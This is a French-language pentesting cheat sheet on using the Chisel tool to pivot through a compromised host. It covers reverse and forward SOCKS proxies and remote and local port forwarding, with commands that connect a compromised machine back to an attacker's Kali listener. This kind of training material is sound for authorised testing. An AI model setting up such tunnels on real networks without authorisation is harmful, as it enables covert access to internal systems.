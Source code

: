 >Chisel utilise un proxy **SOCKS5**

Nous examinerons deux utilisations du ciseau dans cette tâche (un proxy SOCKS et une redirection de port)

## Reverse SOCKS Proxy - Proxy socks inverse

Cela se connecte à partir d'un serveur compromis à un écouteur en attente sur notre machine attaquante.

- Sur notre KALI:

```sh
# Sur notre KALI
chisel server -p LISTEN_PORT --reverse &
```

- Sur l'hôte compromis:

```sh
chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

---
## Forward SOCKS Proxy - Proxy SOCKS direct

les proxys directs sont plus rares que les proxys inverses pour la même raison que les shells inversés sont plus courants que les shells de liaison ; De manière générale, les pare-feu de sortie (qui gèrent le trafic sortant) sont moins stricts que les pare-feu d'entrée (qui gèrent les connexions entrantes). 

- Sur l'hôte compromis:

```sh
chisel server -p LISTEN_PORT --socks5
```

- Sur notre KALI:

```sh
chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
# PROXY_PORT est le port qui sera ouvert pour le proxy.
```

Par exemple, `./chisel client 172.16.0.10:8080 1337:socks` se connecterait à un serveur chisel exécuté sur le port 8080 de 172.16.0.10. Un proxy SOCKS serait ouvert sur le port 1337 de notre machine attaquante.

---
## Remote Port Forward - Transfert de port distant

Un transfert de port distant se produit lorsque nous nous reconnectons à partir d'une cible compromise pour créer le transfert.

- Sur notre KALI:

```sh
chisel server -p LISTEN_PORT --reverse &
```

- Sur l'hôte compromis:

```sh
chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
```

`LOCAL_PORT` est le port que nous souhaitons ouvrir sur notre propre machine attaquante pour établir une liaison avec le port cible souhaité.


Pour utiliser un vieil exemple, supposons que notre propre IP est 172.16.0.20, l'IP du serveur compromis est 172.16.0.5, et notre cible est le port 22 sur 172.16.0.10. La syntaxe pour rediriger 172.16.0.10:22 vers le port 2222 sur notre machine attaquante serait la suivante :

```sh
chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &
```

La reconnexion à notre machine attaquante, fonctionnant comme un serveur burin, a commencé par :

```sh
chisel server -p 1337 --reverse &
```

Cela nous permettrait d'accéder à 172.16.0.10:22 (via SSH) en naviguant vers 127.0.0.1:2222.

---
## Local Port Forward - Transfert de port local

un transfert de port local est l'endroit où nous nous connectons de notre propre machine attaquante à un serveur chisel écoutant sur une cible compromise.

Sur la cible compromise:

```sh
chisel server -p LISTEN_PORT
```

- Sur KALI:

```sh
chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
```

Par exemple, pour se connecter à 172.16.0.5:8000 (l'hôte compromis exécutant un serveur chisel), en transférant notre port local 2222 vers 172.16.0.10:22 (notre cible), nous pourrions utiliser :

```sh
chisel client 172.16.0.5:8000 2222:172.16.0.10:22
```